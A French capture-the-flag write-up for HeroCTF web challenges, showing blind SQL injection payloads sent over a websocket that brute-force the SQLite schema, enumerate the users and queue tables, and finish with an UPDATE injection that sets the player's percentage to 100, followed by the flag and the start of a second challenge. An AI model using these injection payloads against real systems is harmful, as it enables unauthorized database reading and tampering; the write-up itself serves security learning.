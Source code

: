 ```javascript
let payload = "SELECT count(sql) FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users' AND sql like '"+guess+"%'" # create table users(alias varchar(100) primary key, password varchar(1000), canaccessform int default 0)
let payload = "SELECT count(sql) FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='queue' AND sql like '"+guess+"%'" # create table queue(uuid varchar(200) primary key, origin varchar(1000), associateuser varchar(100), lastupdate date, p3rc3nt4g30fus3r varchar(1000), numberofrequest varchar(1000))
let payload = "SELECT count(alias) FROM users WHERE alias like '"+guess+"%'" # enum des users
let payload = "SELECT count(associateuser) FROM queue WHERE associateuser like '"+guess+"%'" # enum des queue associées à des users
let payload = "SELECT count(associateuser) FROM queue WHERE p3rc3nt4g30fus3r like '"+guess+"%'" # see the changes of percentage for my user
final exploit: ws.send("update/', p3rc3nt4g30fus3r=100;--")
```
J'ai fait deux fonctions, l'une pour bruteforce par caractère avec un like, l'autre pour bruteforce caractère par caractère, la deuxième est nécessaire lorsqu'on exfiltre le schéma sql.

Il y a deux tables: users et queue.

Structure de users

|                |alias                         |password                          |canaccessform                         |
|----------------|-------------------------------|-------------------------------|-----------------------------|

Structure de queue

|            |uuid      | origin     | associateuser   | lastupdate    | p3rc3nt4g30fus3r| numberofrequest|
|-----|-------------|-------------|-------------------|------------|-------------------|-----------|

Malheureusement, il semble que je sois le seul compte présent dans la base de données. Il faut donc que je parvienne à modifier mon pourcentage, vu le mal que s'est donné worty, il fallait bien récupérer le nom de la colonne. 

En réfléchissant un peu (j'ai mis du temps !), on s'aperçoit que nous sommes dans une requêtes UPDATE déjà, donc on peut modifier notre pourcentage directement ! 
La payload est la suivante: 
``ws.send("update/', p3rc3nt4g30fus3r=100;--")``

On est ensuite redirigé sur la deuxième étape du challenge où on voit le flag:
Hero{sql1_0v3r_w3bs0ck3t_1s_fun}


## Hero 2

**Description**: Ooof you got your place ! GG !
As this is not secure, there might be others things to find...
**URL**: [https://chall.heroctf.fr:PORT/](https://chall.heroctf.fr:PORT/)
**Auteur** : *Worty*

Nous avons une page avec un magnifique formulaire qui comporte un champs pour une email, et un checkbox pour un status, soit pro, soit étudiant. Il y a un troisième champs (commentaire) qui n'est même pas envoyé.
Lorsque l'on soumet le formulaire, on nous dit qu'on peut le visualiser sur /myform ! On voit bien nos données précédemment renseignées au format JSON.
